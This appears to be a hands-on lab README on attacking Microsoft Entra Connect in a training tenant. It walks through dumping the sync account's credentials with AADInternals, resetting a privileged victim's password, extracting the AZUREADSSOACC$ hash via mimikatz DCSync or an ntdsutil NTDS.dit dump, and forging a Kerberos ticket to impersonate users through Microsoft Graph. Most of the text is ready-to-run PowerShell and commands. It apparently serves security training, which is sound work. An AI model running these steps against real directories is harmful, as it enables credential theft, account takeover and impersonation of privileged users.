 # lab 2 - Entra Connect Attacks
### Prepare a victim user with high privileges: 
in Entra portal (login with your admin tenant creds), select ***user10*** and assign it with the **Application Administrator** role


#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM)

## 1. Extract Entra Connect Credentials and target a victim user

#### 1. Dumping and Extracting Entra (Azure AD) Connect credentials:
1. run powershell as admin on the server where Entra Connect is installed
2. execute:
    ```powershell
    Import-Module AADInternals
    Get-AADIntSyncCredentials
    ```


#### 2. Finding a target (victim) user to attack

```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

## 2. Reset Password Attack
#### Reset the user's Entra password:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
Get-AADIntAccessTokenForAADGraph -SaveToCache

Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```

Now, open browser in incognito and login as that user with the new password :) 


#
## 3. Silver Ticket (Seamless SSO) Attack
#### 1. Detect if SSO is enabled:
```powershell
$body = @{
    "username" = "victim@mydomain.onmicrosoft.com"
} | ConvertTo-Json

$response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/common/GetCredentialType" -Method Post -Body $body -ContentType "application/json"
$response
```

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 2. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
# Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.

# use DSInternals
Import-Module DSInternals

# Get the Boot key
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

# Get the password's hash of AZUREADSSOACC
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
# remote the empy spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 3. Find victim user to impersonate
1. option 1:
    ```powershell
    # Option 1: query Entra + get roles
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


    # Option 2: query AD (w/o getting Entra roles)
    Get-ADReplAccount -SamAccountName 'victim' -Domain $domain -Server dcvm
    ```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 4. Perform the attack
```powershell
$fullyQualifiedDomain = "$domain.onmicrosoft.com" # change to your domain name

# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at =Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain $fullyQualifiedDomain


# start exploring using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgUser
#Readme: https://aka.ms/graph/sdk/powershell
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
#API Docs: https://aka.ms/graph/docs
```
What can you do now that you are an Application Administrator?